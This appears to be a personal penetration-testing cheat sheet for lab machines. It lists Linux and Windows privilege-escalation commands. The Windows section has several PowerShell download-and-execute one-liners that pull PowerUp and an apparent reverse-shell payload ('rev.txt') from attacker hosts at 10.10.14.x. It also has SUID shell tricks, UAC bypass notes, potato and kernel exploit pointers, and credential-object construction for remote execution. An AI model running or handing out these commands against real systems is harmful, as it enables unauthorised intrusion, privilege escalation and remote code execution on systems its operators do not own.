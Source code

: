 

### NFS
`showmount -e 10.10.10.34`


# PrivEsc
## Linux
```
#https://youtu.be/sW10TlZF62w?t=1610   NODE
#if able to run command as other user
chmod u+s on dash shell after copying it.
chown tom:admin /tmp/axano; chmod 6755 /tmp/axano # if group id is also needed
execute with dash -p
find / -perm 4000 2> /dev/null
sudo -l
linpeas
linenum
https://gtfobins.github.io/
```

## Windows
#### Searching for string in files
`grep -Ri password .`

#### bypass UAC reading
`net use Z: \\127.0.0.1\c$`

```
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).String('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
whoami /priv
# if SeImpersonatePrivilege is enabled --> juicy/rotten potato
systeminfo
metasploit local_exploit_suggester --> find vulns
sherlock --> find vulns
MS16-032 --> empire --> https://github.com/EmpireProject/Empire.git --> empire/data/module_source/privesc/Invoke-MS16032.ps1 !!! BE SURE TO RUN IN X64
powerup --> empire echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/PowerUp.ps1') | powershell -noprofile -
  Either append Invoke-Allchecks at the bottom or after execution type Invoke-AllChecks
  or cat powerup.ps1 | grep functions
    Get-RegistryAutoLogon
MS15-051 --> https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
[environment]::is64bitoperatingsystem
[environment]::is64bitprocess
#If problems occure with privesc check proccess architecture and run powershell 64bit
cmd%20/c%20c:\Windows\SysNative\WindowsPowershell\v1.0\powershell%20IEX(New-Object%20Net.WebClient).downloadString(%27http://10.10.14.73/rev.txt%27)

#create credentials object
$pass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$pass)
OR
$cred = New-Object System.Management.Automation.PSCredential('Computername\\Administrator',$pass)
##### following line does not work
#####start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.73/rev1.txt')" -credential $cred
# run hostname
Invoke-Command -Computer ARKHAM -Credential $cred -ScriptBlock { whoami }
### hostname is very sensitive
```